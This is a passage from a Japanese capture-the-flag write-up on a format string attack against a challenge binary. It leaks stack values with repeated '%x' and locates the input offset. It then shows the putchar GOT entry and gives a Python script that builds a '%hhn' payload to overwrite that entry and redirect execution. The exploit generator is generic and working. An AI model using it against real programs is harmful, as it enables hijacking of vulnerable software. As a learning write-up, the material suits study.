 # Format String Attack できるかな?

試してみましょう。`q4` のプログラムに `%x` を沢山渡してみたら色々表示されました。やったあ。

```
[q4@localhost ~]$ echo -n 'XXXX %x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x' | ./q4
What's your name?
Hi, XXXX 400,33a8c0,8,14,c7cfc4,58585858,2c782520,252c7825,78252c78,2c78252c,252c7825,78252c78
Do you want the flag?
```

出力の6番目を見ると、入力した `XXXX` = `0x58585858` が含まれているっぽい感じです。スタックの6番目に入力した文字列保存する変数が存在しているのだと推測します。覚えときます。

---

さきほど見ていた入力処理(fgets -> printf)の流れに putchar がありました。いいところにあるので攻撃に使います。
さて、下記が putchar の GOT(を参照するPLT) です。main から putchar@plt が call され、`jmp *0x80499e0, jmp 8048454` で実際の putchar のアドレスにジャンプするようになっています。このジャンプ先をお目当ての `0x8048691` に書き換えてみたいですね。

```text
08048474 <putchar@plt>:
 8048474: ff 25 e0 99 04 08 jmp    *0x80499e0
 804847a: 68 08 00 00 00    push   $0x8
 804847f: e9 d0 ff ff ff    jmp    8048454 <_init+0x30>
```

---

http://inaz2.hatenablog.com/entry/2014/04/20/041453

解説サイトを見ながら、GOT上書き用の攻撃コードを用意しました。

```python
import struct, sys
def byte2echo(v):
  return 'echo -e "%s"' % repr(v).strip("'")\
                                 .replace('$', '\\$')
got_addr  = int(sys.argv[1], 16)
goal_addr = int(sys.argv[2], 16)
buf_idx   = int(sys.argv[3], 10)

got = ''.join([struct.pack('<I', got_addr+i)
               for i in range(0, 4)])
a = map(ord, struct.pack('<I', goal_addr))
a[3] = (a[3] - a[2]) % 0x100
a[2] = (a[2] - a[1]) % 0x100
a[1] = (a[1] - a[0]) % 0x100
a[0] = (a[0] - len(got)) % 0x100
goal = ''.join(["%%%dx%%%d$hhn" % (a[i], buf_idx+i)
                for i in range(0, 4)])

print(byte2echo(got + goal))
```

---


[^1]: Own をもじって Pwn と呼ぶ Jargon のようです